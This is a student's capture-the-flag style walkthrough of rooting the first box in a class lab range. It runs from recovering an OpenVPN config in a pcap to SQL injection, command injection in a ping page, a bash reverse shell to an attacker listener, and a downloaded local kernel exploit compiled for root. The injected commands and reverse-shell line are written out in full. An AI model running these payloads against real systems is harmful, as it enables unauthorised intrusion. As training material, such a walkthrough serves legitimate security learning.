# Keys to the Kingdom Pt. 1
A in depth walkthrough of how I solved a fairly realistic exercise one of my instructors put to me. This exercise was loads of fun and kept me entertained for quite a while with all of its little rabbit holes and misdirects. There will be 3 parts to this writeup as there were three different boxes to root. This is the first.

Shout out to [@Kyzen-gmg](https://github.com/Kyzen-gmg)  for the range and giving me the idea to do this writeup. 

### It begins...
This is how it started, with a post from an instructor of mine in our class’s Teams channel. "Find the 'Keys' To the Kingdom", he said and then posted a link to a file on google drive along with 3 IP addresses.


#### So we have a couple of clues. 
From just that introduction, I noticed a couple of things that could give me an idea on where to go with this.
1. Keys. I wonder what sort of keys he’s talking about? 
It could be a VPN key hidden in that packet capture, but it could also be an SSH key, or knowing him, it could be a misdirection. 

2. Our second clue comes from 2 of those IP's they are one after another in sequence. So it stands to reason they are on the same subnet and can only be accessed via this hypothetical VPN. 

#### Well only one way to find out! Lets open that pcap in Wireshark.

There are a little over 4000 packets in this pcap file but most of them don’t tell me much. They’re all around 90 in length. Maybe hidden within here is something more substantial. So, I sort by length and find a file that’s a bit longer. 



That’s much better! We found a full OpenVPN key. With a little research about OpenVPN keys I find that I can copy this text directly into a file with the extension .ovpn and connect to the range using the command ``sudo openvpn <filenamehere>.ovpn``

#### ***90s hacker voice*** Im in.


## Now, the real fun begins...

I start by enumerating all 3 of the obtained IP addresses using [@dievus'](https://github.com/dievus) fantastic [Threader3000](https://github.com/dievus/threader3000) tool. I truly love this little guy. It makes port scanning so much quicker and more automated by quickly telling you which ports are up and then constructing an Nmap scan tailored to that specific target. It only deeply scans the ports that its initial scan previously found to be open, which significantly speeds up your wait time. It also automatically outputs your scans into 3 different file formats which you can reference later. I love Threader3000 and cant sing its praises enough. So go check it out for yourself!
Anyway, back to port scanning starting with...
## Box 1


Going for the low hanging fruit (and the best option here), I decide to go check out the website on `port 8080`. I’m greeted with a basic admin login page with the URL extension `index.php`. This lets gives me an idea that I may be able to perform a sql injection but I’m still not sure.



So, I fire up Burp Suite and check out what’s happening when i hit the login button.



Ok there's probably something here. 
Let’s send this to the repeater module in Burp and check out what’s going on. `ctrl+R` is a quick shortcut for moving requests from the Proxy tab into the Repeater Tab. Here, we can manipulate our requests for testing the right sort of attack.
I’m focusing on the bottom line of this request, as this is where our username and password data goes. I added a single character in the username field and got this response back.



This looks like the HTML for the login page. But what if I put some SQL into that field?
Maybe like, a common administrator name like `admin` along with `'OR '1'='1` What would happen?



#### It worked!!!
Then I just take that same text `admin' OR '1'='1` and plug it into the username field on the actual site and I should be taken to the administrative console...

Awesome, now we can probably use this ping page to get a shell into the actual machine. So, lets figure out how to do that.
First i typed an IP `127.0.0.1` into the field and got a pretty generic response. 
Sure, that it was pinging, I tried to see if I could piggyback on that ping command using the semicolon

So, I pinned a Print Working Directory command to the end of that local host ping `127.0.0.1;pwd` and got something much better.



From here it was just a matter of making this machine (target) call back to my (attacker) machine.
As always, I set up a net cat listener on my (attacker) machine using the command `nc -lvnp 4444` and then I went over to [pentest monkey's](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) reverse shell cheat sheet where I got the bash reverse shell.

When appended to the end of the localhost ping, the final command looked like this: 
`127.0.0.1;bash -i >& /dev/tcp/10.0.0.0/4444 0>&1`

#### Voila


Now we have to escalate our privileges. This is the part that took me the longest on this box as I was running around searching for an exploit that would work here. But we will skip over all of that and get straight into the meat. First I needed to check who I was, `id` let me know that I was apache and a `pwd` showed that I spawned in the `/var/www` directory.
Then I quickly upgraded my shell using `python -c 'import pty; pty.spawn("/bin/bash")'`
I couldnt touch any of the user accounts and I most definately didnt have root access. So, I decided to go to `/tmp` and see if I could place any files in there.
A quick `touch 1.txt` inside the directory, confirmed that I could. So, I went and grabbed a copy of linenum.sh, and saved it into my local directory where I was keeping all of the information about this box (nmap scans, notes, exploit code, etc.). 
**Note:** staying organized during engagements is incredibly important. What I often do is create a subdirectory within my home directory and just work out of that the whole time. This helps keep everything organized and lets me refer back to things later if needed.

On my machine:

`python3 -m http.server`

On target machine:

`wget http://m.y.i.p:8000/linenum.sh`

`chmod +x linenum.sh`

`./linenum.sh`

Unfortunately, I didn’t get much information out of that, but I got enough. Which allowed me to go and search for an exploit to escalate my privileges.



## The Final Stage

Now that the OS and Kernel version are both confirmed, it’s a good time to go search for a relevant exploit. I chose to use searchsploit for this on my Kali Box. 



This first exploit looks promising. So, I copy the file to my engagement directory `cp /usr/share/exploitdb/exploits/linux/local/9545.c /your/engagement/directory/9545.c`and start a python http server inside of it `python3 -m http.server`

The server defaults to port 8000, so on the target machine (in /tmp) I ran `wget http://m.y.i.p:8000/9545.c` which copied the exploit over to the target machine.



Finally, its time to compile and exploit. This can all be done with one single command by to using the gcc compiler on 9545.c and outputting to another file called 9545. Then using `&&` to run the new 9545 file after the compiling is completed.  

The final command looks like this: `$ gcc 9545.c -o 9545 && ./9545`


**We have root**

## Final thoughts on this first box

I had a great time with this exercise. It was a good way to get some practice with Linux privilege escalation exploits that I don’t often get. Most of my experience with Linux priv esc comes in the form of exploiting cronjobs or SUID permissions. So, needless to say this was a welcome change of pace for me. 

Any questions? Feel free to contact me via email: jwautry93@gmail.com you can also reach out to me on my [LinkedIn](https://www.linkedin.com/in/jwautry/) 

More write-ups will be coming in the future, so make sure to keep a look out for those. I have 2 more boxes to chronicle in this series and loads more projects to take on after that.

**Thanks for reading!**

-J
